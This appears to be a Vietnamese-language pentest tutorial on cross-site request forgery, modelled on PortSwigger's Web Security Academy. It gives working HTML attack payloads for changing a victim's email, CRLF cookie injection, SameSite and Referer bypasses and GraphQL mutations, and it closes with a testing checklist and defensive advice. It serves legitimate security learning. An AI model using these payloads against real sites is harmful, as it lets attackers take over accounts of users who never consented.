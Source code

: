 # CSRF – Kỹ thuật phát hiện & khai thác  
*(bám sát PortSwigger Web Security Academy)*

> ⚠️ Chỉ dùng cho mục đích kiểm thử hợp pháp (pentest có uỷ quyền).  

---

## Mục tiêu & quy trình nhanh

1. **Rà soát hành động thay đổi trạng thái**: đổi email/mật khẩu, thêm địa chỉ, nạp/rút tiền, đổi quyền, v.v.  
2. **Thu request thật** bằng Burp (Proxy/Logger/Repeater).  
3. **Tạo PoC** bằng *Engagement tools → Generate CSRF PoC* rồi tinh chỉnh.  
4. **Thử các biến thể**: thay method, bỏ token, thay token, đổi header, chuyển hướng top-level, v.v.

**PoC POST tối thiểu**
```html
<form action="https://target.tld/my-account/change-email" method="POST">
  <input type="hidden" name="email" value="attacker@evil.me">
</form>
<script>document.forms[0].submit()</script>
```

**PoC GET (nếu endpoint chấp nhận GET)**
```html
<img src="https://target.tld/my-account/change-email?email=attacker@evil.me">
```

---

## Lỗi triển khai CSRF token & cách khai thác

### 1) Bỏ qua kiểm tra khi **thiếu tham số token**
- **Dấu hiệu:** Xoá hẳn `csrf` khỏi request, server vẫn xử lý.  
- **Khai thác:** Gửi request **không có** token (PoC html không chứa field token).

### 2) Chỉ kiểm tra token với **một method** (thường POST)
- **Dấu hiệu:** POST cần token, **GET/HEAD/OPTIONS** không.  
- **Khai thác:** Dùng Burp “Change request method” POST→GET; nếu OK, chuyển sang PoC top-level GET.

### 3) Token **không gắn với phiên** (không ràng buộc user/session)
- **Dấu hiệu:** Token của user A dùng được cho user B.  
- **Khai thác:** Đổi session (đăng nhập tài khoản khác), tái dùng token cũ.

### 4) Token phụ thuộc **cookie không phải session** (dễ bị đặt từ xa)
- **Dấu hiệu:** App sinh token dựa vào một cookie “key” riêng.  
- **Khai thác:** Tìm chỗ có thể ép **Set-Cookie** (CRLF, host phụ, tính năng phản hồi) để đặt trước cookie “key”, rồi gửi token khớp.

### 5) **Double-submit cookie**
- **Dấu hiệu:** App chỉ so sánh *tham số token* với *giá trị trong cookie* mà **không lưu state** server-side.  
- **Khai thác:** Đặt trước cookie `csrf=fake` rồi submit form dùng `csrf=fake`.

*Minh hoạ đặt cookie rồi auto-submit:*
```html
<form action="https://target.tld/my-account/change-email" method="POST">
  <input type="hidden" name="email" value="pwn@evil.me">
  <input type="hidden" name="csrf"  value="fake">
</form>
<!-- Ví dụ ép Set-Cookie qua một lỗ hổng/điểm phản hồi -->
<img src="https://target.tld/?search=x%0d%0aSet-Cookie:%20csrf=fake" 
     onerror="document.forms[0].submit()">
```

---

## Bypass SameSite cookie (khi app chỉ dựa vào cookie phiên)

> SameSite **giảm** rủi ro nhưng **không thay thế** CSRF token.

### A) **Lax + top-level GET** (hoặc method override)
- **Ý tưởng:** Top-level navigation với **GET** vẫn gửi cookie (Lax).  
- **Khai thác:** Nếu app hỗ trợ `_method=POST` qua **query**, trình duyệt vẫn là GET top-level.

```html
<script>
  location = "https://target.tld/my-account/change-email?email=pwn@evil.me&_method=POST"
</script>
```

### B) **Cookie mới cấp** → “cửa sổ” gửi POST
- **Ý tưởng:** Ngay sau khi cookie được cấp mới (ví dụ sau OAuth/popup), có khoảng ngắn cookie được gửi trong hành động tiếp theo.  
- **Khai thác:** Kích hoạt luồng làm mới cookie rồi auto-submit form POST.

### C) **On-site gadget** → secondary same-site request
- **Ý tưởng:** Lợi dụng endpoint nội bộ/redirect để tạo request **same-site** thứ cấp (cookie được gửi).  
- **Khai thác:** Dùng URL gadget/redirect để điều hướng đến endpoint thực thi hành động.

```html
<script>
location="https://target.tld/post/confirm?next=/my-account/change-email?email=pwn%40evil.me%26submit=1"
</script>
```

### D) **Sibling domain** trong cùng “site”
- **Ý tưởng:** Khai thác subdomain/cùng registrable domain (ví dụ `cms.example` ↔ `app.example`) để dựng gadget hoặc đặt cookie/phản hồi.

---

## Vượt kiểm **Referer/Origin**

- Một số ứng dụng chỉ kiểm tra **Referer**/ **Origin** “bắt buộc”.  
- **Khai thác:**  
  - **Loại bỏ** hoặc **làm trống** header (meta `referrer`, `rel="noreferrer"`, iframing, chuyển hướng).  
  - **Tuyệt đối**: Nếu chỉ match “bắt đầu bằng”, thử **open redirect** để trông giống nguồn hợp lệ.

*Suppress Referer rồi auto-submit:*
```html
<meta name="referrer" content="no-referrer">
<form action="https://target.tld/my-account/change-email" method="POST">
  <input type="hidden" name="email" value="pwn@evil.me">
</form>
<script>document.forms[0].submit()</script>
```

---

## CSRF với **GraphQL**

- Nếu endpoint GraphQL chấp nhận `application/x-www-form-urlencoded`, mutation có thể **submit qua form** như REST.

```html
<form action="https://target.tld/graphql" method="POST">
  <input type="hidden" name="query"
         value="mutation{ updateEmail(email:\"pwn@evil.me\"){ id } }">
</form>
<script>document.forms[0].submit()</script>
```

---

## Phối hợp **XSS ↔ CSRF**

- Khi token triển khai **đúng chuẩn**, cần XSS để **đọc/lấy token** hoặc **gửi request** từ trong origin hợp lệ.  
- **Kịch bản:** stored XSS chèn JS đọc token trong DOM rồi `fetch` hành động nhạy cảm.

---

## Checklist kiểm thử nhanh

- [ ] Endpoint thay đổi trạng thái có **token?**  
  - [ ] **Đổi giá trị** token → bị chặn?  
  - [ ] **Xoá hẳn** tham số token → request còn được xử lý?  
- [ ] **Đổi method** (POST↔GET/PUT/DELETE hoặc `_method=`) → cơ chế kiểm token còn hiệu lực?  
- [ ] Token **gắn với session**? Thử token giữa **hai người dùng**/hai phiên.  
- [ ] Có **double-submit cookie**/cookie phụ? Thử **đặt cookie trước** rồi submit token trùng khớp.  
- [ ] Cookie phiên có **SameSite** gì? Thử:  
  - [ ] **Top-level GET** / method override  
  - [ ] **Cookie mới cấp** (sau login/OAuth)  
  - [ ] **On-site gadget/redirect**  
  - [ ] **Sibling domain**  
- [ ] App dựa vào **Referer/Origin**? Thử **loại bỏ/sửa** header hoặc **open redirect**.

---

## Mẹo thực hành với Burp

- **Logger/Proxy**: gom request nhạy cảm.  
- **Repeater**: thử biến thể (đổi method, xoá token, đổi token, thay header).  
- **Engagement tools → Generate CSRF PoC**: khởi tạo khung PoC, sau đó **chỉnh sửa** để thêm kỹ thuật bypass (override, redirect, suppress Referer…).  
- **Proxy Match & Replace**: tự động tiêm header/cookie trong thử nghiệm.

---

## Khuyến nghị phòng thủ (tham khảo nhanh)

- **CSRF token chuẩn**: ngẫu nhiên, entropy cao, **gắn với phiên**, **bắt buộc cho mọi hành động state-changing** (không chỉ POST).  
- **SameSite=Strict/Lax** cho cookie phiên; **không dựa một mình** vào SameSite.  
- **Re-auth/2FA** cho tác vụ cực nhạy (đổi mật khẩu, chuyển tiền).  
- **Kiểm Origin/Referer** như lớp phụ trợ (không phải tuyến chính).  
- **Tách miền** cho vùng không tin cậy (upload/preview).

---

### Ghi chú
- Tùy từng lab/môi trường, chuỗi khai thác (đặc biệt SameSite) cần tinh chỉnh (điều hướng, thời điểm, gadget).  
- Tài liệu này bám sát cách phân loại/kỹ thuật trong PortSwigger Web Security Academy.
